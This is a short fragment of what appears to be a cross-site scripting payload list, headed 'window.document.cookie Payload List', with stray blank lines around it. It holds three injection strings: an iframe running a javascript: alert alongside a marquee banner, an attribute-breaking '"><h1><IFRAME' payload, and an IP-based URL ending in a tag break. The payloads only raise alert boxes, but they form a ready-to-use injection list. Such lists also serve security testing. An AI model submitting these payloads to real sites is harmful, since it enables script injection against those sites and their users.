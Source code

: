 #### window.document.cookie Payload List :

```


i








<iframe src="javascript:alert('XSS by \nxss');"></iframe><marquee><h1>XSS by xss</h1></marquee>

"><h1><IFRAME SRC="javascript:alert('window.localStorage');"></IFRAME>">123</h1>

http://66.102.7.147/">XSS













